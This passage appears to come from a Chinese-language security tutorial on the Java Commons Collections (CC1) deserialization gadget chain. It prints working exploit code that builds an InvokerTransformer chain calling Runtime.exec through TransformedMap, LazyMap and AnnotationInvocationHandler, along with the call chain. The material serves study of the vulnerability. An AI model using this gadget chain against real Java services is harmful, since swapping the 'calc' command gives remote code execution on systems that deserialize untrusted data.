 ```plain
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "v");
        Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ann = c.getDeclaredConstructor(Class.class, Map.class);
        ann.setAccessible(true);
        Object annIns = ann.newInstance(Target.class, transformedmap);
        serialize(annIns);
        unserialize("ser.bin");
    }
}
```

当我们上面简述的版本时国内大佬的版本，这个版本是通过 Transformedmap 类来调用 tranforms 方法的，

原始（ysoserial）版本时利用的`LazyMap.get()`，然后通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法

**调用链**

```plain
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

```plain
public static void main(String[] args) throws Exception {
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> Lazymap = LazyMap.decorate(map, chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
```